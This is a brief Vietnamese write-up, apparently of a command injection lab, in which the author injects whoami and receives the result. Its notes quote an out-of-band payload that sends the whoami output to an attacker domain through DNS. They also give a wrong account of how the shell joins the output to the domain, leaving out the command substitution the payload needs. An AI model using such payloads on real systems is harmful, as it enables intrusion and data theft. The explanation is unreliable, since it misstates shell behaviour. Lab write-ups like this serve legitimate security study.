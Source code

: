 ![image](https://github.com/user-attachments/assets/05f71b8a-1a39-4c84-85ae-392ac1537894)

Ở challenge này nó cũng giống như challenge trước, nhưng nó khác ở chỗ là nó yêu cầu mình phải chèn command của os vào v:, ở challenge này nó yêu cầu bạn dùng lệnh whoami sau đó lấy name được phản hồi và submit

![image](https://github.com/user-attachments/assets/51d13854-516e-44f5-8fb8-71285edf494b)

![image](https://github.com/user-attachments/assets/399e96e3-6941-4991-8df5-e5b6b49c9b6b)

Đó thành công r nhé.

![image](https://github.com/user-attachments/assets/5be4bde0-c7e7-42b2-98ea-fe68890c5ee0)

**Lưu ý cho tôi nhé:**

Dấu chấm (.): Trong shell, dấu chấm thường được sử dụng để nối một chuỗi với một phần mở rộng hoặc một tên miền. Khi bạn viết whoami.kgji2ohoyw.web-attacker.com, hệ thống sẽ thực hiện lệnh whoami, sau đó nối kết quả đầu ra với tên miền kgji2ohoyw.web-attacker.com, tạo thành một tên miền hoàn chỉnh. Ví dụ: nếu lệnh whoami trả về user1, thì kết quả sẽ là user1.kgji2ohoyw.web-attacker.com.

Dấu cộng (+): Dấu cộng không được xử lý theo cách tương tự. Trong nhiều môi trường shell, dấu cộng không có tác dụng nối chuỗi trong lệnh. Nếu bạn sử dụng dấu cộng như whoami+kgji2ohoyw.web-attacker.com, hệ thống có thể không hiểu ý đồ của bạn hoặc thậm chí báo lỗi vì cú pháp không hợp lệ. Dấu cộng thường được dùng trong một số ngôn ngữ lập trình hoặc cú pháp cụ thể, nhưng không phải trong shell để nối chuỗi trực tiếp.
